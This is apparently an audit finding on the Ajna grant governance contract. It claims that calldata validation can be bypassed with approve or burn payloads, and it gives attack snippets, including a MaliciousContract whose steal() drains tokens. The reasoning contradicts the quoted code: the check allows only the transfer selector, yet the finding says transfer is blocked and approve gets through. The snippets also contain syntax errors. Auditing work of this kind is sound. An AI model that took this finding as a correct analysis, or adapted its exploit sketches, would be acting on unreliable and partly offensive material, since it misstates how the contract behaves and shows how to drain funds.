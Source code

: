 ctf_sec

high

# Insufficient validation of the CallDatas for governance proposal

## Summary

Insufficient validation of the CallDatas for governance proposal

## Vulnerability Detail

In the current implementation of Grant governance, the function _validateCallData is called when a new proposal is propsed both in StandardFunding#proposeStandard and in ExtraordinaryFunding.sol#proposeExtraordinary

```solidity
3 results - 3 files

ecosystem-coordination\src\grants\base\ExtraordinaryFunding.sol:
  82  
  83:         uint256 totalTokensRequested = _validateCallDatas(targets_, values_, calldatas_);
  84  

ecosystem-coordination\src\grants\base\Funding.sol:
  98       */
  99:     function _validateCallDatas(address[] memory targets_,
  100          uint256[] memory values_,

ecosystem-coordination\src\grants\base\StandardFunding.sol:
  321          // check proposal parameters are valid and update tokensRequested
  322:         newProposal.tokensRequested  = _validateCallDatas(targets_, values_, calldatas_);
  323  
```

the function _validateCallDatas is trying to do two things, extracting the number of token requested, and block malicious proposal such as transfer the token out of the wallet directly

```solidity
function _validateCallDatas(address[] memory targets_,
	uint256[] memory values_,
	bytes[] memory calldatas_) internal view returns (uint256 tokensRequested_) {

	for (uint256 i = 0; i < targets_.length;) {

		// check  targets and values are valid
		if (targets_[i] != ajnaTokenAddress) revert InvalidTarget();
		if (values_[i] != 0) revert InvalidValues();

		// check calldata function selector is transfer()
		bytes memory selDataWithSig = calldatas_[i];

		bytes4 selector;
		//slither-disable-next-line assembly
		assembly {
			selector := mload(add(selDataWithSig, 0x20))
		}
		if (selector != bytes4(0xa9059cbb)) revert InvalidSignature();

		// https://github.com/ethereum/solidity/issues/9439
		// retrieve tokensRequested from incoming calldata, accounting for selector and recipient address
		uint256 tokensRequested;
		bytes memory tokenDataWithSig = calldatas_[i];
		//slither-disable-next-line assembly
		assembly {
			tokensRequested := mload(add(tokenDataWithSig, 68))
		}

		// update tokens requested for additional calldata
		tokensRequested_ += tokensRequested;

		unchecked {
			++i;
		}
	}
}
```

Note the code:

```solidity
// check calldata function selector is transfer()
bytes memory selDataWithSig = calldatas_[i];

bytes4 selector;
//slither-disable-next-line assembly
assembly {
	selector := mload(add(selDataWithSig, 0x20))
}
if (selector != bytes4(0xa9059cbb)) revert InvalidSignature();
```

bytes4(0xa9059cbb) is the signature for transfer 

https://www.4byte.directory/signatures/?bytes4_signature=0xa9059cbb

However, such validation is not sufficient to block malicious proposal.

a malicious actor submit a proposal which set target address to AJNA ERC20 token and calldata that calls approve function to bypass the validation.

## Impact

Let us look into how the proposal is executed:

```solidity
/// @inheritdoc IStandardFunding
function executeStandard(address[] memory targets_, uint256[] memory values_, bytes[] memory calldatas_, bytes32 descriptionHash_) external nonReentrant returns (uint256 proposalId_) {
	proposalId_ = hashProposal(targets_, values_, calldatas_, descriptionHash_);
	Proposal memory proposal = standardFundingProposals[proposalId_];

	// check that the distribution period has ended, and one week has passed to enable competing slates to be checked
	if (block.number <= distributions[proposal.distributionId].endBlock + 50400) revert ExecuteProposalInvalid();

	super.execute(targets_, values_, calldatas_, descriptionHash_);
	standardFundingProposals[proposalId_].executed = true;
}
```

note the line of execution:

```solidity
super.execute(targets_, values_, calldatas_, descriptionHash_);
```

values can be ignored and descriptionHash are ignored, 

the targets and calldatas are the important part.

When proposing the proposal, the adversary cannot submit the malicious target address and calldata below.

The target address is the ANJA token 

the calldata can be generated with

```solidity
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

uint256 tokenAmount = 100000 ether;
address hacker = msg.sender;
bytes calldata = abi.encodeWithSelector(IER20.transfer.selector, hacker, tokenAmount)
```

The above target address + calldata combination means once the proposal is executed,
if there are token balance in the Grant governance smart contract, 100000 amount of ANJA token will be transferred to the hacker address.

However, because the bytes4(0xa9059cbb) is the signature for transfer and the transfer is not allowed in the calldata, the above attack is throttled.

But the hacker does not have to call transfer method directly, the hacker can generate the payload that call approve function indirectly by approving a malicious contract that can transfer the ANJA token out of the governance contract if the malicious proposal is executed.

In the malicious proposal, the target address is the AJNA token as well,

The hacker can deploy the contract below

```solidity
contract MaliciousContract {

    address public ajnaGonvernance;

    constructor(_ajnaGovernance) {
       ajnaGonvernance = _ajnaGovernance
    }
 
    function steal(address token, address to, uint256 amount) external {
        IERC20(token).transferFrom(address(ajnaGovernance), to, amount);
    }
}
```

then the hacker can generate the malicious calldata to perform malicious approval

```solidity
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

uint256 tokenAmount = 100000 ether;
address hackerContract = "maliciousAddress"
bytes calldata = abi.encodeWithSelector(IER20.approve.selector, hackerContract, tokenAmount)
```

to bypass the transfer signature check.

or the hacker can generate malicious calldata to burn the AJNA token in the contract if the proposal is executed.

```solidity
import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Burnable.sol";

uint256 tokenAmount = 100000 ether;
bytes calldata = abi.encodeWithSelector(ERC20Burnable.burn.selector, tokenAmount)
```
## Code Snippet

https://github.com/sherlock-audit/2023-01-ajna/blob/main/ecosystem-coordination/src/grants/base/Funding.sol#L91-L133

## Tool used

Manual Review

## Recommendation

We recommend the proposal block arbitrary execution and at least blacklist the method signature such as transferFrom, approve and increaseAllowance.
